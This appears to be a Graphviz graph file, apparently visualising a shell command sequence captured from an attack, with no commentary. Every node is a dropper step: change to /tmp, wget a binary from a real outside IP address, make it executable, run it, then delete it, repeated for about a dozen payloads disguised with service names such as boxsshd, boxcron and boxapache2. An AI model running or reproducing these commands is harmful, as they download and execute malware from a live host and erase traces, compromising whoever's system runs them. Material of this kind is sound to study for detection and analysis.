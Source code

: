 digraph {
110 [label="cd /tmp "];
110 -> 110
2 [label="wget http://86.105.52.37/boxntpd "];
2 -> 4 [label=";,"];
4 [label="chmod +x boxntpd "];
4 -> 6 [label=";,"];
6 [label="./boxntpd "];
6 -> 8 [label=";,"];
8 [label="rm -rf boxntpd "];
8 -> 110 [label=";,"];
110 [label="cd /tmp "];
110 -> 110
12 [label="wget http://86.105.52.37/boxsshd "];
12 -> 14 [label=";,"];
14 [label="chmod +x boxsshd "];
14 -> 16 [label=";,"];
16 [label="./boxsshd "];
16 -> 18 [label=";,"];
18 [label="rm -rf boxsshd "];
18 -> 110 [label=";,"];
110 [label="cd /tmp "];
110 -> 110
22 [label="wget http://86.105.52.37/boxopenssh "];
22 -> 24 [label=";,"];
24 [label="chmod +x boxopenssh "];
24 -> 26 [label=";,"];
26 [label="./boxopenssh "];
26 -> 28 [label=";,"];
28 [label="rm -rf boxopenssh "];
28 -> 110 [label=";,"];
110 [label="cd /tmp "];
110 -> 110
32 [label="wget http://86.105.52.37/boxbash "];
32 -> 34 [label=";,"];
34 [label="chmod +x boxbash "];
34 -> 36 [label=";,"];
36 [label="./boxbash "];
36 -> 38 [label=";,"];
38 [label="rm -rf boxbash "];
38 -> 110 [label=";,"];
110 [label="cd /tmp "];
110 -> 110
42 [label="wget http://86.105.52.37/boxsepreme "];
42 -> 44 [label=";,"];
44 [label="chmod +x boxsepreme "];
44 -> 46 [label=";,"];
46 [label="./boxsepreme "];
46 -> 48 [label=";,"];
48 [label="rm -rf boxsepreme "];
48 -> 110 [label=";,"];
110 [label="cd /tmp "];
110 -> 110
52 [label="wget http://86.105.52.37/boxwget "];
52 -> 54 [label=";,"];
54 [label="chmod +x boxwget "];
54 -> 56 [label=";,"];
56 [label="./boxwget "];
56 -> 58 [label=";,"];
58 [label="rm -rf boxwget "];
58 -> 110 [label=";,"];
110 [label="cd /tmp "];
110 -> 110
62 [label="wget http://86.105.52.37/boxcron "];
62 -> 64 [label=";,"];
64 [label="chmod +x boxcron "];
64 -> 66 [label=";,"];
66 [label="./boxcron "];
66 -> 68 [label=";,"];
68 [label="rm -rf boxcron "];
68 -> 110 [label=";,"];
110 [label="cd /tmp "];
110 -> 110
72 [label="wget http://86.105.52.37/boxftp "];
72 -> 74 [label=";,"];
74 [label="chmod +x boxftp "];
74 -> 76 [label=";,"];
76 [label="./boxftp "];
76 -> 78 [label=";,"];
78 [label="rm -rf boxftp "];
78 -> 110 [label=";,"];
110 [label="cd /tmp "];
110 -> 110
82 [label="wget http://86.105.52.37/boxpftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x boxpftp "];
84 -> 86 [label=";,"];
86 [label="./boxpftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf boxpftp "];
88 -> 110 [label=";,"];
110 [label="cd /tmp "];
110 -> 110
92 [label="wget http://86.105.52.37/boxsh "];
92 -> 94 [label=";,"];
94 [label="chmod +x boxsh "];
94 -> 96 [label=";,"];
96 [label="./boxsh "];
96 -> 98 [label=";,"];
98 [label="rm -rf boxsh "];
98 -> 110 [label=";,"];
110 [label="cd /tmp "];
110 -> 110
102 [label="wget http://86.105.52.37/boxshit "];
102 -> 104 [label=";,"];
104 [label="chmod +x boxshit "];
104 -> 106 [label=";,"];
106 [label="./boxshit "];
106 -> 108 [label=";,"];
108 [label="rm -rf boxshit "];
108 -> 110 [label=";,"];
110 [label="cd /tmp "];
110 -> 110
112 [label="wget http://86.105.52.37/boxapache2 "];
112 -> 114 [label=";,"];
114 [label="chmod +x boxapache2 "];
114 -> 116 [label=";,"];
116 [label="./boxapache2 "];
116 -> 117 [label=";,"];
}
